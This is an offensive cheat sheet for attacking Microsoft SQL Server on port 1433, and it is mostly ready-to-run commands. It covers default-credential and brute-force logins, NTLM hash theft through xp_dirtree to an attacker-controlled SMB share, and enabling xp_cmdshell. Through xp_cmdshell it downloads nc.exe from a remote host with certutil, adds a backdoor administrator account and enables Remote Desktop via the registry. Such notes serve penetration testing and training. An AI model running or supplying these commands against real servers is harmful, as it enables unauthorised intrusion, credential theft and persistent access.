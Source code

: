 # 1433 (MSSQL)

## Enumeration

### Checks

* [ ] Try default credentials "sa:password"
* [ ] Brute force creds
* [ ] Check database content for new passwords
* [ ] Check version for exploits
* [ ] RCE
  * [ ] through xp\_cmdshell functionality
  * [ ] through injecting payload in output file, placing it in webroot and triggering it through webapp

### Connection

#### sqsh

```bash
sqsh -S <IP> -U sa

#login
sqsh -S <IP> -U sa -P password
sqsh -S <IP>:27900 -U sa -P password

#execute commands
xp_cmdshell 'date'
go


```

#### mssqlclient.py

```bash
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;

# Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
```

### nmap

```bash
nmap -p 1433 --script='banner,(ms-sql* or ssl*) and not (brute or broadcast or dos or external or fuzzer)' <IP> -o 1433_nmap_mssql

# Credential Brute Force
nmap -p 1433 --script ms-sql-brute --script-args passdb=/usr/share/seclists/Passwords/darkweb2017-top1000.txt <IP>

nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

### xp\_cmdshell

```bash
exec sp_configure 'show advanced options', 1
go
reconfigure
go
exec sp_configure 'xp_cmdshell', 1
go
reconfigure
go

xp_cmdshell 'net user byte bytepass /add'
go
xp_cmdshell 'net localgroup Administrators byte /add'
go
xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
go
```

### Metasploit

```bash
use auxiliary/scanner/mssql/mssql_ping
```

## Brute Force

### Metasploit

```bash
scanner/mssql/mssql_login
```

### Hydra

```bash
hydra -l sa -P password.txt -V <IP> mssql
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
```

### Cheat sheet

```bash
https://www.asafety.fr/mssql-injection-cheat-sheet/
```
